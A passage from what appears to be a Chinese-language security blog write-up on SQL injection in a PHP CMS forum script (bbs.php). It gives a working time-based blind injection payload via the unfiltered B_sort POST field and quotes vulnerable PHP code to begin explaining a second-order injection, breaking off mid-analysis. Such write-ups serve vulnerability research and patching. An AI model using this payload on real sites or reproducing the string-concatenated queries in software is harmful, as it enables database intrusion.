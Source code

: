 这个注入比较简单，首先需要注册登录拿到session，然后$B_sort无过滤直接从post中获取，虽然select查询用intval过滤了，但是后面的insert语句并没有过滤，构成注入。

payload

```http
http://127.0.0.1/scms/bbs/bbs.php?action=add

POST：B_title=test&B_content=test11&B_sort=1 and sleep(5)
```

![payload](https://y4er.com/img/uploads/20190509163061.jpg "payload")

### 二次注入

**先看一下漏洞触发点：**

```php
$sql="Select * from SL_bbs,SL_bsort,SL_member,SL_lv where B_sort=S_id and B_mid=M_id and M_lv=L_id and B_id=".$id;
    $result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
    if (mysqli_num_rows($result) > 0) {
    $B_title=lang($row["B_title"]);
    $B_content=lang($row["B_content"]);
    $B_time=$row["B_time"];
    $B_sort=$row["B_sort"];
    $S_title=lang($row["S_title"]);
    $B_view=$row["B_view"];
    $M_login=$row["M_login"];
    $M_pic=$row["M_pic"];
    $L_title=$row["L_title"];
    }
if(substr($M_pic,0,4)!="http"){
$M_pic="../media/".$M_pic;
}
$sql2="Select count(*) as B_count from SL_bbs where B_sub=".$id;
$result2 = mysqli_query($conn, $sql2);
$row2 = mysqli_fetch_assoc($result2);
$B_count=$row2["B_count"];
if($action=="reply"){
$B_contentx=$_POST["B_content"];
$debug("insert into SL_bbs(B_title,B_content,B_time,B_mid,B_sub,B_sort) values('[回复]".$B_title."','".$B_contentx."','".date('Y-m-d H:i:s')."',".$_SESSION["M_id"].",".$id.",".$B_sort.")");
mysqli_query($conn,"insert into SL_bbs(B_title,B_content,B_time,B_mid,B_sub,B_sort) values('[回复]".$B_title."','".$B_contentx."','".date('Y-m-d H:i:s')."',".$_SESSION["M_id"].",".$id.",".$B_sort.")");
box("回复成功！","item.php?id=".$id,"success");

}
```

简单说一下逻辑，第一步执行的sql语句是查询帖子的详细内容（$id帖子id）

```php
$sql="Select * from SL_bbs,SL_bsort,SL_member,SL_lv where B_sort=S_id and B_mid=M_id and M_lv=L_id and B_id=".$id;
```

